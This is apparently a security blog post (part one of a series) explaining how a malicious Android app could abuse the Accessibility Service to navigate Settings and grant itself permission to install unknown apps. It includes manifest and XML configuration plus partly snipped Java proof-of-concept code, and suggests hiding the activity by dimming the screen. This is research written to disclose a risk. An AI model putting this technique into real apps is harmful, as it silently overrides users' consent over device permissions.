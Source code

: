## About Android Accessibility Service

### [~$ cd ..](../)

### ~$ ls

* How_an_Android_app_could_escalate_its_privileges.txt
* [How_an_Android_app_could_escalate_its_privileges_Part2.txt](./part2)
* [How_an_Android_app_could_escalate_its_privileges_Part3.txt](./part3)

### ~$ cat How_an_Android_app_could_escalate_its_privileges.txt

### About Accessibility Service

A few months ago, I heard about the malware Shedun, abusing the Accessibility Service of Android in order to do the bad things malwares do. In my opinion,
it's as simple as it's clever. As the documentation says:

>Accessibility services **should** only be used to assist users with disabilities in using Android devices
>and apps. They run in the background and receive callbacks by the system when AccessibilityEvents are fired. Such events denote some state transition in
>the user interface, for example, the focus has changed, a button has been clicked, etc. Such a service can optionally request the capability for querying
>the content of the active window. Development of an accessibility service requires extending this class and implementing its abstract methods."

In other words, it's a kind of component being put between the application and the user. Is it a good thing ? On one hand, yes, it is. AS makes the app more usable, and as we can read in the doc:
_Note: Although it's beneficial to add accessibility features in your app, you should use them only for the purpose of helping users with disabilities interact with your app._

On the other hand, as we can easily imagine, there will be some problems in case of misuse ... Indeed, a malicious application implementing this service could then "capture" the screen before display and interact with.
Actually, it could be harmless (or to a lesser extent), if the service was not able to interact with other applications. Imagine how dangerous an application upgrading its privileges could be... 

Does it seem so unrealistic ? Let's take a closer look ...

### Setting up an Accessibility Service

To create an Accessibility Service, an application has to register it in the Manifest.xml, for example

> ```xml
> <service android:name=".services.CustomAccessibilityService"
>	android:permission="android.permission.BIND_ACCESSIBILITY_SERVICE">
>	<intent-filter>
>	<action android:name="android.accessibilityservice.AccessibilityService"/>
>	</intent-filter>
>	<meta-data android:name="android.accessibilityservice"
>		android:resource="@xml/accessibility_config"/>
> </service>
> ```

The configuration could be done in Java, but some parameters (the most interesting ones actually) can only be set using XML:

> ```xml
><accessibility-service xmlns:android="http://schemas.android.com/apk/res/android"
>	android:accessibilityEventTypes="typeWindowContentChanged"
>	android:packageNames="com.android.settings, xyz.noname.spyapp"
>	android:accessibilityFeedbackType="feedbackAllMask"
>	android:notificationTimeout="100"
>	android:canRetrieveWindowContent="true"/>
> ```

We can see in the snippet just above three interesting things:
* the service will be called each time the content of the window changes
* two applications will be concerned: mine and Settings
* the service is allowed to get the content of the current window

### Java part

It's then time to code the class `CustomAccessibilityService`! The class has to extend `AccessibilityService`:

> ```java
>public class CustomAccessibilityService extends AccessibilityService {
>	@Override
>	public void onAccessibilityEvent(AccessibilityEvent accessibilityEvent) {
>	}
>
>	@Override
>	public void onInterrupt() {
>	}
>}
> ```

The routine `onAccessibilityEvent` is the most important here, because it's the one which will allow the developer to catch all events.
I have to make the difference between events coming from my application, and those coming from Settings.

The principle of the application is quite simple:
* check if my app has privileges. If not, launch the app Settings
* reach the panel where my app will toggle the right switch
* go back to my app

_Since it's only a PoC, the code is quite dirty and will probably not work on another device. The one I used on the emulator is a Nexus 5X_

The most difficult part is to browse through the settings and find the right page. To do this, I decided to use a stack containing keywords, and creating a kind
of "path" for my service. Each time the top of the stack is found on a widget, a click is programmatically done. 

Then, since events coming from my application will appear at the beginning, I set up my stack at this moment. For events coming from Settings, a loop is used to follow
the right path.

> ```java
>@Override
>public void onAccessibilityEvent(AccessibilityEvent accessibilityEvent) {
>	switch (accessibilityEvent.getPackageName().toString()){
>		case BuildConfig.APPLICATION_ID:
>			if (stack == null){
>				stack = new Stack<>();
>			}
>			else if (stack.size() != 5){
>				stack.push("spyapp");
>				stack.push("unknown");
>				stack.push("special");
>				stack.push("advanced");
>				stack.push("app");
>			}
>			break;
>		case Constants.PACKAGE_SETTINGS:
>			AccessibilityNodeInfo info = accessibilityEvent.getSource();
>			if (info != null && this.stack != null) {
>				lookForPermissionsPanel(info);
>			}
>		break;
>	}
>}
> ```

Then, the job is done by the routine `lookForPermissionsPanel` which recursively scans the view, and tries to find the string on the top of the stack:

> ```java
>private boolean lookForPermissionsPanel(AccessibilityNodeInfo info) {
>	if (info == null)
>		return false;
>	for (int c = 0; c < info.getChildCount(); c++){
>		if (lookForPermissionsPanel(info.getChild(c))) {
>			return true;
>		}
>	}
>	if (info.getText() != null){
>		String text = info.getText().toString().toLowerCase();
>		if (!stack.empty() && (text.contains(stack.peek()) || text.equalsIgnoreCase(stack.peek()))){
>			stack.pop();
>			/**
>			 * <snipped>
>			 * here we deal with clickable widgets. To force the click, we use performAction(AccessibilityNodeInfo.ACTION_CLICK); on the node
>			 * or on its parent. 
>			 * </snipped>
>			 **/
>		}
>		else{
>			/**
>			 * <snipped>
>			 * the stack is empty and we have to deal with the final toggle button, and to close Settings
>			 * </snipped>
>			 **/
>		}
>	}
>	return false;
>}
> ```

_The routine returns true when a widget has been clicked_

And finally, in the the main activity, we only have to launch Settings if our app doesn't have the desired privileges:
> ```java
>@Override
>protected void onCreate(@Nullable Bundle savedInstanceState) {
>	super.onCreate(savedInstanceState);
>	LinearLayout layout = (LinearLayout) LinearLayout.inflate(this, R.layout.activity_main, null);
>	TextView text = layout.findViewById(R.id.text);
>	text.setText(!getPackageManager().canRequestPackageInstalls() ? "Cannot install unknown apps" : "Allowed to install unknown apps");
>	if (!getPackageManager().canRequestPackageInstalls() && isAccessibilitySettingsOn() && !Util.hasPermission(Manifest.permission.REQUEST_INSTALL_PACKAGES, this)) {
>		Intent intent = context.getPackageManager().getLaunchIntentForPackage(Constants.PACKAGE_SETTINGS);
>		if (intent != null) {
>			intent.addCategory(Intent.CATEGORY_LAUNCHER);
>			startActivity(intent);
>		}
>	}
>	setContentView(layout);
>}
> ```

where `hasPermission` is a routine returning true if the app has a permission, and `isAccessibilitySettingsOn` is another routine checking if our app is allowed to
use the accessibility service (inspired by [this solution])(https://stackoverflow.com/questions/5081145/android-how-do-you-check-if-a-particular-accessibilityservice-is-enabled)

### So what ?

We might think that it's not terrible since the user will see my app do its malicious job, and react quickly. It's true, but I think about 2 things:
* imagine that the malicious app is designed to do an unrecoverable thing. If the app is fast enough, the damage will be done
* there are maybe some tricks to hide the malicious activity. Let's say, set the brightness to 0 (even if it requires the permission WRITE_SETTINGS. Why not, social engineering is often better than expected)

here is a video showing the app running. As you can see, there is no permission at the beginning, and the app will escalate its privileges by browsing through Settings (the pointer doesn't appear at this moment):

[![video_poc](video.png)](https://youtu.be/7SMHSPEBcAw)
